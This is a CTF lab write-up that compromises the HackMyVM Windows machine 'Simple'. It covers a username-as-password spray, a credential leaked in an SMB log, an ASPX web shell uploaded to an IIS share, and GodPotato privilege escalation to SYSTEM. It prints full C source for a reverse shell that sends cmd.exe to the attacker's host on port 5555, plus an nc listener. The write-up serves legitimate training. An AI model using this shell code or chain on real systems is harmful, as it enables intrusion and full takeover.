




Welcome back to another CTF writeup! Today, we are taking a deep dive into **Simple**, an **Easy** difficulty Windows machine hosted on the HackMyVM platform. Don't let the name fool you, though while the path is straightforward, this machine provides an excellent showcase of realistic enterprise misconfigurations, horizontal movement, and modern Windows privilege escalation techniques.

- **Machine:** [Simple](https://downloads.hackmyvm.eu/simple.zip)
- **Difficulty:** Easy
- **Core concepts:**  SMB, ASPX, Potato, GodPotato, SeImpersonatePrivilege

Get ready to rumble!

## Getting started
To map out the local network area and confirm our target's network coordinates, I launched my custom reconnaissance utility (`NET-Scan.sh`) on the interface bound to the sandbox subnet.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ sudo ./NET-Scan.sh  

███╗   ██╗███████╗████████╗   ███████╗ ██████╗ █████╗ ███╗   ██╗
████╗  ██║██╔════╝╚══██╔══╝   ██╔════╝██╔════╝██╔══██╗████╗  ██║
██╔██╗ ██║█████╗     ██║█████╗███████╗██║     ███████║██╔██╗ ██║
██║╚██╗██║██╔══╝     ██║╚════╝╚════██║██║     ██╔══██║██║╚██╗██║
██║ ╚████║███████╗   ██║      ███████║╚██████╗██║  ██║██║ ╚████║
╚═╝  ╚═══╝╚══════╝   ╚═╝      ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
              [ 5-in-1: Nmap + Arp-Scan + Arping + Fping + Ping ]

========================================================
   NUM  INTERFACE    IP-ADRES          
========================================================
   1    eth0         10.0.2.3/24       
========================================================
[?] Kies het nummer van de interface om te scannen: 1

[*] Netwerk herrie starten (Pakket-sweeps afvuren in de achtergrond)... 
[*] Wachten tot netwerk-caches zijn gesynchroniseerd...
[*] Live ARP-data verzamelen...
[+] Scan voltooid! Tabel genereren...

========================================================================================================================
   IP-ADRES         MAC-ADRES           EST. OS         FABRIKANT / MERK                             
========================================================================================================================
   10.0.2.1         52:54:00:12:35:00   Linux/Android   Onbekend merk              
   10.0.2.2         08:00:27:6b:30:6f   Router/Cisco    PCS Systemtechnik GmbH     
   10.0.2.45        08:00:27:bc:d6:00   Windows         PCS Systemtechnik GmbH     
   10.0.2.3         08:00:27:24:46:73   Linux (Local)   Dit Kali-apparaat          
========================================================================================================================
```
Our live target has been successfully pinpointed at **10.0.2.45**. To streamline my workflow and keep future commands clean, I exported the address into a local shell environment variable.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ ip=10.0.2.45
```
## Enumeration
With the live host confirmed inside our environment, the next task is to assess the active infrastructure footprint. I initiated a full TCP port scan mapping all 65,535 entry points, combining default script enumeration (`-sC`) with deep service version signature scanning (`-sV`) to uncover what is running behind the scenes.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ sudo nmap -sC -sV -T4 -p- $ip 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-11-07 22:14 +0100
Nmap scan report for 10.0.2.45
Host is up (0.00085s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Simple
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:BC:D6:00 (Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-11-07T21:16:20
|_  start_date: N/A
|_nbstat: NetBIOS name: SIMPLE, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:bc:d6:00 (Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.79 seconds

```
The execution output finished in just under a hundred seconds and presents a very standard Windows enterprise deployment footprint. By looking closely at the service versions and high-ephemeral RPC ports, we can break down our potential attack vectors into three primary focal points:

- **The Web Vector (Port 80):** A **Microsoft IIS 10.0** web server is running on the default HTTP port. The page title is simply registered as `"Simple"`. This is our primary target for manual web application footprinting and directory enumeration.
- **Active Windows Services (Ports 135, 139, 445):** Standard NetBIOS and SMB entryways are open. Host scripts confirm the target machine name is indeed `SIMPLE`. SMB signing is enabled but not explicitly required, meaning we can check for anonymous share access or potential vulnerable protocols.
- **Remote Management (Port 5985):** WinRM (Windows Remote Management) HTTP listener is actively running. If we manage to harvest valid credentials or user access tokens later, this port could provide us a direct, stable PowerShell interaction prompt.

Before poking around the other active Windows services, I decided to take a closer look at the web vector discovered on port 80. I assigned the root target path to a local `$url` variable and used `whatweb` to map the application stack and identify the underlying server technologies.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ url=http://$ip     

┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ whatweb $url
http://10.0.2.45 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.0.2.45], Microsoft-IIS[10.0], Title[Simple], X-Powered-By[ASP.NET], X-UA-Compatible[IE=edge]

```
The output gives us valuable indicators about the target's web environment, confirming it is integrated into a modern Windows Server architecture:
- **The Framework Vector:** The presence of the `X-Powered-By: ASP.NET` header confirms that the application is running an **ASP.NET web framework** rather than a standard static HTML setup or a PHP stack.
- **The Web Infrastructure:** The `HTTPServer` tag verifies the presence of **Microsoft IIS 10.0**, which aligns with Windows Server 2016, 2019, or 2022.
- **Compatibility Flags:** The `X-UA-Compatible: IE=edge` header indicates standard Microsoft web container configurations for rendering engines.

Knowing that we are interacting with an **ASP.NET application on Microsoft IIS**, our attack path now shifts towards uncovering hidden endpoints, management portals, or input vulnerabilities tailored to .NET environments.

We should check the website in the browser to see what it looks like.

{: width="700" height="400" }

We have identified some team members on the webpage: `ruy, marcos, lander, bogo, vaiper`. We should save them in a wordlist in our project folder.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nano users.txt                                                 

┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ cat users.txt              
ruy
marcos
lander
bogo
vaiper

```
The website has not that much functionalities available to use. So we should move to SMB services

Before conducting a heavy authentication sweep, I used **NetExec (`nxc`)** to query the SMB interface using a dummy credential. This allowed us to verify the target’s definitive operating system build and domain architecture details.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nxc smb $ip -u 'a'
SMB         10.0.2.45       445    SIMPLE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SIMPLE) (domain:Simple) (signing:False) (SMBv1:None)

```
The query explicitly confirms the target environment as **Windows Server 2019 Build 17763 x64**, operating within a local system infrastructure context named `Simple`.

A common misconfiguration on internal infrastructure servers is users assigning their own account name as their initial or fallback password (e.g., `username:username`). I utilized NetExec to perform a structured credential cross-spray, feeding our compiled `users.txt` dictionary file into both the username (`-u`) and password (`-p`) parameters:
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nxc smb $ip -u users.txt -p users.txt --ignore-pw-decoding   
SMB         10.0.2.45       445    SIMPLE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SIMPLE) (domain:Simple) (signing:False) (SMBv1:None)
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\bogo:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\vaiper:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\bogo:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\vaiper:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\bogo:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\vaiper:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:bogo STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:bogo STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:bogo STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\bogo:bogo STATUS_PASSWORD_EXPIRED 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\vaiper:bogo STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:vaiper STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:vaiper STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:vaiper STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\bogo:vaiper STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\vaiper:vaiper STATUS_LOGON_FAILURE 
```
While almost all evaluation cycles threw standard authentication rejections (`STATUS_LOGON_FAILURE`), the combination targeting the user account **`bogo`** returned a unique response indicator:
- **`STATUS_PASSWORD_EXPIRED`**

This is an extremely critical finding. In the Windows security model, an "Expired Password" state explicitly validates that **the username `bogo` exists** on the machine and that **the password `bogo` is correct**. However, the OS is actively preventing a full operational login session until a mandatory password change procedure is successfully completed.

Because modern Windows environments heavily restrict unauthenticated remote password modification vectors via protocols like RPC/SAMR or raw SMB handshakes, our command-line tools threw access denied exceptions. Since this lab environment allows interactive console access, I took the most direct operational path: **interactively changing the expired password via the victim machine's console screen.**

To maintain simplicity across my attack tooling environment, I changed the expired token back to its original value, **`bogo`**.

I immediately re-verified our updated authentication state using `nxc`.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nxc smb $ip -u users.txt -p users.txt --ignore-pw-decoding
SMB         10.0.2.45       445    SIMPLE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SIMPLE) (domain:Simple) (signing:False) (SMBv1:None)
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\bogo:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\vaiper:ruy STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\bogo:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\vaiper:marcos STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\bogo:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\vaiper:lander STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\ruy:bogo STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:bogo STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [-] Simple\lander:bogo STATUS_LOGON_FAILURE 
SMB         10.0.2.45       445    SIMPLE           [+] Simple\bogo:bogo
```
The system officially accepted the login query without raising any further password policy flags. The user account `bogo:bogo` is now active and fully valid.

With working system credentials, I used NetExec (`nxc`) with the `--shares` flag to list the available file shares mapped to this machine and assess our data access level.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nxc smb $ip -u bogo -p bogo --shares
SMB         10.0.2.45       445    SIMPLE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SIMPLE) (domain:Simple) (signing:False) (SMBv1:None)
SMB         10.0.2.45       445    SIMPLE           [+] Simple\bogo:bogo 
SMB         10.0.2.45       445    SIMPLE           [*] Enumerated shares
SMB         10.0.2.45       445    SIMPLE           Share           Permissions     Remark
SMB         10.0.2.45       445    SIMPLE           -----           -----------     ------
SMB         10.0.2.45       445    SIMPLE           ADMIN$                          Admin remota
SMB         10.0.2.45       445    SIMPLE           C$                              Recurso predeterminado
SMB         10.0.2.45       445    SIMPLE           IPC$            READ            IPC remota
SMB         10.0.2.45       445    SIMPLE           LOGS            READ            
SMB         10.0.2.45       445    SIMPLE           WEB   
```
The execution completed successfully, revealing both the default Windows administrative shares and a few custom directories. Based on the returned access permissions, we can structure our next steps around the following key findings:
- **Administrative Targets (`ADMIN$`, `C$`):** These are default administrative mappings. Our user doesn't hold execution rights over them yet, indicating that `bogo` does not belong to the local Administrators group.
- **The `LOGS` Volume:** We have explicit `READ` permissions over this directory. This could contain web infrastructure trails, application diagnostic logs, or operational data leaks.
- **The `WEB` Volume:** While no permissions are explicitly printed, the existence of a share named `WEB` heavily implies a direct correlation to the Microsoft IIS 10.0 root infrastructure mapped on port 80.

Since our operational evaluation of the available mappings highlighted explicit `READ` access over the **`LOGS`** volume, I focused my post-auth footprinting efforts entirely on this directory. I used `smbclient` to establish an authenticated interactive session as the user `bogo`.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ smbclient //$ip/logs -U bogo
Password for [WORKGROUP\bogo]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Oct  8 23:23:36 2023
  ..                                  D        0  Sun Oct  8 23:23:36 2023
  20231008.log                        A     2200  Sun Oct  8 23:23:36 2023

                12966143 blocks of size 4096. 11135097 blocks available
smb: \> get 20231008.log 
getting file \20231008.log of size 2200 as 20231008.log (119.4 KiloBytes/sec) (average 119.4 KiloBytes/sec)
smb: \> exit

```
With the log artifact safely stored locally, I inspected its contents using `cat`. The file turned out to be a transcript of an active PowerShell session recorded on the target machine.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ cat 20231008.log                            
PS C:\> dir \\127.0.0.1\WEB
Acceso denegado
At line:1 char:1
+ dir \\127.0.0.1\WEB
+ ~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\127.0.0.1\WEB:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
Cannot find path '\\127.0.0.1\WEB' because it does not exist.
At line:1 char:1
+ dir \\127.0.0.1\WEB
+ ~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\127.0.0.1\WEB:String) [Get-ChildItem], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand

PS C:\> net use \\127.0.0.1\WEB
Se ha completado el comando correctamente.

PS C:\> dir \\127.0.0.1\WEB
Acceso denegado
At line:1 char:1
+ dir \\127.0.0.1\WEB
+ ~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\127.0.0.1\WEB:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
Cannot find path '\\127.0.0.1\WEB' because it does not exist.
At line:1 char:1
+ dir \\127.0.0.1\WEB
+ ~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\127.0.0.1\WEB:String) [Get-ChildItem], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand

PS C:\> net use \\127.0.0.1\WEB /user:marcos SuperPassword
Se ha completado el comando correctamente.

PS C:\> dir \\127.0.0.1\WEB

    Directorio: \\127.0.0.1\WEB

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/8/2023   9:46 PM                aspnet_client
-a----        9/26/2023   6:46 PM            703 iisstart.htm
-a----        10/8/2023  10:46 PM            158 test.php

PS C:\> rm \\127.0.0.1\WEB\*.php

PS C:\> dir \\127.0.0.1\WEB

    Directorio: \\127.0.0.1\WEB

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/8/2023   9:46 PM                aspnet_client
-a----        9/26/2023   6:46 PM            703 iisstart.htm

PS C:\> 

```
The analysis of the exfiltrated `20231008.log` file paid off tremendously. Hardcoded directly into the historic command-line trail was a cleartext credential leak resulting from an administrator mapping a network drive via the `net use` command: `marcos:SuperPassword`

This represents a classic horizontal movement opportunity within our testing lifecycle. While our initial user `bogo` was structurally restricted across critical system shares, the user **`marcos`** appears to be an account used for managing web root assets, as evidenced by the successful directory listing of the `WEB` volume in the session history.

```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nxc smb $ip -u marcos -p SuperPassword --shares                 
SMB         10.0.2.45       445    SIMPLE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SIMPLE) (domain:Simple) (signing:False) (SMBv1:None)
SMB         10.0.2.45       445    SIMPLE           [-] Simple\marcos:SuperPassword STATUS_PASSWORD_EXPIRED 

```
Since the password has been expired for this user as well, we had to change the password on the victim as well just like we did for bogo.

With a fresh set of cleartext credentials in hand, I used NetExec (nxc) to validate the account context for marcos across the network interface. Simultaneously, I appended the --shares flag to see if this new user profile granted expanded permissions over the structural system mappings.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nxc smb $ip -u marcos -p SuperPassword --shares
SMB         10.0.2.45       445    SIMPLE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:SIMPLE) (domain:Simple) (signing:False) (SMBv1:None)
SMB         10.0.2.45       445    SIMPLE           [+] Simple\marcos:SuperPassword 
SMB         10.0.2.45       445    SIMPLE           [*] Enumerated shares
SMB         10.0.2.45       445    SIMPLE           Share           Permissions     Remark
SMB         10.0.2.45       445    SIMPLE           -----           -----------     ------
SMB         10.0.2.45       445    SIMPLE           ADMIN$                          Admin remota
SMB         10.0.2.45       445    SIMPLE           C$                              Recurso predeterminado
SMB         10.0.2.45       445    SIMPLE           IPC$            READ            IPC remota
SMB         10.0.2.45       445    SIMPLE           LOGS            READ            
SMB         10.0.2.45       445    SIMPLE           WEB             READ,WRITE   
```
The authentication phase succeeded immediately, and the newly mapped share access layer completely changes our attack surface. Based on the permissions matrix returned by the tool, we can focus our exploitation strategy on the following key aspects:
- **Authentication Success:** The system returned a solid `[+]` validation flag, confirming that `marcos:SuperPassword` is an active, functional credential set on the target machine.
- **The Breakthrough:** Unlike the heavily restricted `bogo` account, the user `marcos` possesses explicit **`READ,WRITE`** privileges over the **`WEB`** share.

With confirmed `READ,WRITE` privileges over the **`WEB`** share under the context of `marcos`, I had a direct vector to deploy server-side code. Since our earlier web reconnaissance proved the Microsoft IIS 10.0 platform executes an ASP.NET framework, I targeted the volume with a custom ASPX web shell (`eMVee-AAWC.aspx`).

## Initial access
I utilized `smbclient` authenticated as `marcos` to push the payload directly into the web root folder using the native `put` operator.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ smbclient -U "marcos" //$ip/WEB -c "put eMVee-AAWC.aspx"
Password for [WORKGROUP\marcos]:
putting file eMVee-AAWC.aspx as \eMVee-AAWC.aspx (492.1 kB/s) (average 492.1 kB/s)

```
The file transfer completed successfully without encountering any protective storage barriers or security restriction filters.

To verify if the Microsoft IIS engine would parse and execute our uploaded file, I navigated directly to the corresponding HTTP path using a web browser.

The browser rendered the interactable web application interface flawlessly under the heading **"eMVee - ASPX Advanced Web Cocontrol"**.

To test our administrative execution boundaries, I issued a standard native Windows environment command (`whoami`) through the command execution input prompt. The web server immediately evaluated the request and returned the current active process identity inside the output window.

{: width="700" height="400" }

When executing `whoami` via our newly uploaded ASPX webshell, the underlying application pool returned the operational name: **`iis apppool\defaultapppool`**.

## Privilege escaltion
While this service account is standard for standalone IIS application setups, accounts running inside the web server daemon layer frequently retain secondary token assignment rights (like `SeImpersonatePrivilege`). This makes them an excellent breeding ground for potato-style privilege escalation attacks. We can upload `GodPotato-NET4.exe` to `c:\windows\temp`.

{: width="700" height="400" }

To step away from the unstable web framework interface and capture an interactive command prompt socket, I decided to compile a native Windows 64-bit standalone executable in C.

I set up a local source profile named `rev.c` containing standard Winsock communication pipelines, explicitly linking inputs and error handlers directly over a raw TCP socket socket routed back to my Kali platform on port `5555`.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nano rev.c

┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ cat rev.c 
#include <winsock2.h>
#include <windows.h>
#include <stdio.h>

#pragma comment(lib, "ws2_32")

int main() {
    WSADATA wsaData;
    SOCKET wSock;
    struct sockaddr_in addr;
    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    // Initialiseer Winsock
    WSAStartup(MAKEWORD(2,2), &wsaData);

    // Maak een TCP socket aan
    //wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
    wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    // Vul de netwerkparameters in (Jouw Kali IP en Poort)
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);
    addr.sin_addr.s_addr = inet_addr("10.0.2.3");

    // Maak de verbinding met Kali
    if (WSAConnect(wSock, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL) == SOCKET_ERROR) {
        return 0;
    }

    // Bereid de processtart voor en koppel de invoer/uitvoer aan de Socket!
    memset(&si, 0, sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESTDHANDLES;
    si.hStdInput = (HANDLE)wSock;  // Koppel socket aan CMD input
    si.hStdOutput = (HANDLE)wSock; // Koppel socket aan CMD output
    si.hStdError = (HANDLE)wSock;  // Koppel socket aan CMD error

    // Start de native Windows Command Prompt (cmd.exe) onzichtbaar op
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
    
    return 0;
}

```
Using the MinGW crosscompiler suite available on Kali Linux, I compiled the raw C source text file down to a lightweight standalone runtime module (`shell.exe`), linking the Windows socket dependency wrapper explicitly.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ x86_64-w64-mingw32-gcc rev.c -o shell.exe -lws2_32
```

Using our existing web interface, I navigated to the upload menu and successfully transferred two crucial payloads into the universally writable directory `C:\Windows\Temp\`:
1. **`shell.exe`** - Our custom compiled reverse connection binary.
2. **`GodPotato-NET4.exe`** - A powerful privilege escalation exploit leveraging the DCOM/WamSap network token reflection engine.

{: width="700" height="400" }

With our tools staged inside the target's temporary directory, I set up a local netcat listening handle on port `5555` to catch the connection response.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nc -lvp 5555                                   
listening on [any] 5555 ...
```

Instead of simply launching `shell.exe` as the restricted web app pool user, I weaponized **GodPotato** directly from the web command execution engine. By passing our compiled reverse shell path inside the execution arguments of the potato exploit, we can force GodPotato to intercept a privileged engine call, extract a token copy, and run our executable context directly as root.

{: width="700" height="400" }

The payload executed beautifully. Back on my Kali terminal panel, the netcat container intercepted a connection request coming from the target IP, handing back an interactive command terminal operating under absolute privileges.
```bash
┌──(emvee㉿kali)-[~/Documents/Simple]
└─$ nc -lvp 5555
listening on [any] 5555 ...
10.0.2.45: inverse host lookup failed: Unknown host
connect to [10.0.2.3] from (UNKNOWN) [10.0.2.45] 49701
Microsoft Windows [Versi�n 10.0.17763.107]
(c) 2018 Microsoft Corporation. Todos los derechos reservados.

C:\Windows\temp>whoami
whoami
nt authority\system

C:\Windows\temp>


```
